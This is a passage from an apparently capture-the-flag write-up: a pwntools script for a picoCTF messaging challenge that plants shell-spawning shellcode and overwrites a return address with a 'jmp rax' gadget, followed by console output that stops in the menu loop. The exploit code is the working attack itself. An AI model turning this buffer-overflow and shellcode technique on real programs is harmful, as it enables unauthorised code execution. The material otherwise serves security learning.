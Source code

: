 ```py3
	writeline(b'2')
	writeline(str(n).encode('ascii'))
	writeline(msg)

def feedback(msg):
	writeline(b'3')
	writeline(msg)

# Open 10 entries
for i in range(10):
	add_entry(b'a')

context.arch = 'amd64'
shellcode = asm(shellcraft.amd64.linux.sh())

# Step 1: Set up shellcode in last entry
send_msg(9, shellcode)

# Step 2: Short jmp to shellcode in beginning of payload, overwrite
# return address at the end of payload to jump to rax

# Location of code containing jmp rax
jmp_rax = 0x40116c
# Jump 70 bytes back, accounting for these two bytes themselves too
jmp_to_shell= b'\xeb\xba'
padding = (b'\x00' * (20 - len(jmp_to_shell)))
payload = jmp_to_shell + padding + p64(jmp_rax)
assert len(payload) == 28, payload

feedback(payload)

# ===

f.close()
conn.interactive()
```

Example interaction:

```
[+] Opening connection to shape-facility.picoctf.net on port 54699: Done
[*] Switching to interactive mode
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
What's the new recipient's name: 
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
What's the new recipient's name: 
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
What's the new recipient's name: 
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
What's the new recipient's name: 
What option would you like to do?
1. Add a new recipient
```